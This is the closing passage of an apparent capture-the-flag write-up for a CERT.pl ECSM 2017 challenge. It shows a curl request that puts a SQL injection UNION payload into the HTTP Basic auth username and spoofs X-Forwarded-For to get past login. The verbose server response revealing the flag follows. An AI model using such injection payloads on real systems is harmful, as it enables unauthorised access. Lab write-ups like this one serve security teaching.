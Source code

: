 
### Final request

Now we can use found username in our ```UNION``` SQL payload - because we still do not know the password, only username (we could extract password in the same way we get username, but it's not necessary).

One last ```curl``` command gives us message we're looking for:

```
$ curl --verbose --user-agent "hackerone.com/bl4de" --header "X-Forwarded-For: 175.45.176.100" --user "name' or '1'='2' UNION SELECT 'VeRySeCr3tAgent','5f4dcc3b5aa765d61d8327deb882cf99'--":password  http://ecsm2017.cert.pl:6044/index.php/instructions

*   Trying 136.243.148.95...
* TCP_NODELAY set
* Connected to ecsm2017.cert.pl (136.243.148.95) port 6044 (#0)
* Server auth using Basic with user 'name' or '1'='2' UNION SELECT 'VeRySeCr3tAgent','5f4dcc3b5aa765d61d8327deb882cf99'--'
> GET /index.php/instructions HTTP/1.1
> Host: ecsm2017.cert.pl:6044
> Authorization: Basic bmFtZScgb3IgJzEnPScyJyBVTklPTiBTRUxFQ1QgJ1ZlUnlTZUNyM3RBZ2VudCcsJzVmNGRjYzNiNWFhNzY1ZDYxZDgzMjdkZWI4ODJjZjk5Jy0tOnBhc3N3b3Jk
> User-Agent: hackerone.com/bl4de
> Accept: */*
> X-Forwarded-For: 175.45.176.100
>
< HTTP/1.1 200 OK
< Date: Fri, 17 Nov 2017 00:08:16 GMT
< Server: Apache
< Vary: Accept-Encoding
< Content-Length: 365
< Content-Type: text/html; charset=UTF-8
<
<html>
<head>
<style>
body { background-color: #AA0000; color: white; font-size: 300%;}
</style>
</head>
<body>

<nav>
    <a href="/index.php/home">집</a>
    |
    <a href="/index.php/instructions">명령</a>
</nav>

<hr />

<h2>안녕하십니까</h2><h3>여기에 당신을위한 메시지가 있습니다.:</h3><p>- ecsm{cyber.szpiegostwo}</p>
</body>
* Connection #0 to host ecsm2017.cert.pl left intact
</html>
```
